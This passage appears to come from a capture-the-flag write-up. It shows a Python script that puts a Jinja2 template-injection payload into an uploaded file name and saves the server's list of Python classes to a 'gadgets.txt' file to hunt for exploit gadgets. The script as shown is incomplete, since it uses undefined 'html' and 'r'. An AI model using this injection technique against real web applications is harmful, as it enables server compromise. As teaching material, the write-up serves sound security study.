 ```python
import re
import os

cwd = os.path.dirname(os.path.realpath(__file__))

payload = "{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}"

files = {
    'file' : (f"{payload}.exe", '123')
}

print(html.unescape(r.text))
content = html.unescape(r.text)

pattern = r"\[(.*?)\]"
match = re.search(pattern, content)
if match:
    extracted_value = match.group(1)
    print(extracted_value)

split = extracted_value.split(', ')
print(len(split))
with open(cwd + "/gadgets.txt", 'w') as f:
    for g in split:
        f.write(g + "\n")
```

By doing so, we get the entire list of the classes in a file. Now it should be formatted nicely in a `gadgets.txt` file. We just need to look for something we could use.

![Untitled](images/Untitled%2015.png)
